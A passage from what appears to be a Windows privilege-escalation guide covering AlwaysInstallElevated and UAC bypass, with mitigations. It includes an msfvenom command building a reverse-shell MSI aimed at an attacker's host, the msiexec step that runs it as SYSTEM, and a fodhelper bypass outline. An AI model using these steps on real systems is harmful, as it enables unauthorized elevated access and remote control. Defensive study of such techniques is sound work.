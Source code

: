 
### ## 9. AlwaysInstallElevated

This is a pair of registry keys that, when both are set, cause any Windows Installer (`.msi`) package to be installed with SYSTEM privileges, regardless of who runs it.

* **What to look for:** Two specific registry keys being set to `1`.
* **Commands & Tools:**
    * **Manual Registry Check:**
        ```powershell
        reg query HKCU\SOFTWARE\Policies\Microsoft\Windows\Installer /v AlwaysInstallElevated
        reg query HKLM\SOFTWARE\Policies\Microsoft\Windows\Installer /v AlwaysInstallElevated
        ```
        *If both return a value of `0x1`, the system is vulnerable.*
    * **WinPEAS/PowerUp:** `Get-AlwaysInstallElevated`
* **Exploitation:**
    1.  Use `msfvenom` to create a malicious `.msi` package.
        ```powershell
        msfvenom -p windows/x64/shell_reverse_tcp LHOST=<Your_IP> LPORT=<Your_Port> -f msi -o malicious.msi
        ```
    2.  Transfer the `malicious.msi` file to the target machine.
    3.  "Install" it using the `msiexec` command. No special privileges are needed to run the command itself.
        ```powershell
        msiexec /quiet /qn /i C:\tmp\malicious.msi
        ```
    4.  The installer will run with SYSTEM privileges, executing your payload.
* **Mitigation:** This setting should never be enabled. Ensure both registry keys are set to `0` or are non-existent.

---

### ## 10. UAC Bypass

User Account Control (UAC) is a security feature, not a security boundary. It's designed to prevent accidental changes by prompting for confirmation. Many techniques exist to bypass these prompts and run code in a high-integrity (elevated) context.

* **What it is:** Abusing legitimate Windows processes that are "auto-elevated" to execute malicious code without triggering a UAC prompt. A common method involves hijacking a process that looks for a file or registry key in a user-controlled location.
* **Tools:** The **UACME** project on GitHub is a massive collection of UAC bypass techniques. Metasploit also has several UAC bypass modules (`exploit/windows/local/bypassuac_*`).
* **Example (Fodhelper method):**
    1.  The `fodhelper.exe` program is an auto-elevating binary.
    2.  When it runs, it checks for specific registry keys in the current user's hive (`HKCU`).
    3.  An attacker can create a specific registry key under `HKCU:\Software\Classes\` that points to their malicious command.
    4.  When `fodhelper.exe` is executed, it reads this malicious key and executes the command in a high-integrity context, bypassing the UAC prompt.
* **Mitigation:** Keep systems patched. Set UAC to its highest level ("Always notify"). Most importantly, do not rely on UAC as a primary security control; a standard user should not be able to compromise the system even after a bypass.

---